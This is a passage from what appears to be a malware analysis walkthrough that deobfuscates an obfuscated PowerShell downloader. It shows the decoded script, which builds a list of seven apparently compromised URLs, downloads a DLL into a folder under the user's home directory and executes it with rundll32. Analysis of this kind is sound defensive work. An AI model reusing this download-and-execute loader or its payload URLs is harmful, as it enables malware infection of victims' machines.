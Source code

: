```powershell
    try {
        (&('new-object') system.net.webclient)."downloadfile"($bm5pw6z, $imd1yck);
        $z10l = ('a92q');
        if ((&('get-item') $imd1yck)."length"  - ge 35698)  {
            &('rundll32') $imd1yck, (('control_rundll')."tostring"();
            $r65i = ('z09b'));
            break;
            $k7_h = ('f12u')
        }
    } catch {}

}
$w54i = 'v95o'
```

## Replacing the Replace function manually
Now let's replace the Replace function
Here
```powershell
$imd1yck = $home + ('uohdb_bh30uohyf5be5guoh')."replace"('uoh', "\") + $swrp6tc + '.dll';
```
Which becomes
```
$imd1yck = $home + '\db_bh30\yf5be5g\' + $swrp6tc + '.dll'
```

And second string:
```powershell
(']anw[3s://admintk.com/wp-admin/l/@]anw[3s://mikegeerinck.com/c/yysa/@]anw[3://freelancerwebdesignerhyderabad.com/cgi-bin/s/@]anw[3://etdog.com/wp-content/nu/@]anw[3s://www.hintup.com.br/wp-content/de/@]anw[3://www.stmarouns.nsw.edu.au/paypal/b8g/@]anw[3://wm.mcdevelop.net/content/6f2gd/')."replace"(']anw[3', ([array]('sd', 'sw'), 'http', '3d')[1])."split"($c83r  +  $cvmmq4o  +  $f10q)
```
Gives as an array of URLs. First `]anw[3` gets replaces by `http` and then `split happens with` a `@` which is saved in `$cvmmq4o`.

We end up with simple array.
```powershell
$b9fhbyv = 'https://admintk.com/wp-admin/l/','https://mikegeerinck.com/c/yysa/','http://freelancerwebdesignerhyderabad.com/cgi-bin/s/','http://etdog.com/wp-content/nu/','https://www.hintup.com.br/wp-content/de/','http://www.stmarouns.nsw.edu.au/paypal/b8g/','http://wm.mcdevelop.net/content/6f2gd/'
```

Now our command looks like this
```powershell
set mku([type](system.io.directory));
set-item('variable:mbu')[type](system.net.servicepointmanager);
$erroractionpreference = 'silentlycontinue';
$cvmmq4o = $q26l  +  "@"  +  $e16h;
$j16j = 'n_0p';
(dir variable:mku).value::"createdirectory"($home  +  '\db_bh30\yf5be5g\');
$c39y = 'u68s';
(variable("mbu") -valueon)::"securityprotocol" = 'tls12';
$f35i = 'i4_b';
$swrp6tc = 'a69s';
$x27h = 'c33o';
$imd1yck = $home + '\db_bh30\yf5be5g\a69s.dll';
$k47v = 'r49g';
$b9fhbyv = 'https://admintk.com/wp-admin/l/','https://mikegeerinck.com/c/yysa/','http://freelancerwebdesignerhyderabad.com/cgi-bin/s/','http://etdog.com/wp-content/nu/','https://www.hintup.com.br/wp-content/de/','http://www.stmarouns.nsw.edu.au/paypal/b8g/','http://wm.mcdevelop.net/content/6f2gd/'
$q52m = 'p05k';
foreach ($bm5pw6z in $b9fhbyv) {
    try {
        (&('new-object') system.net.webclient)."downloadfile"($bm5pw6z, $imd1yck);
```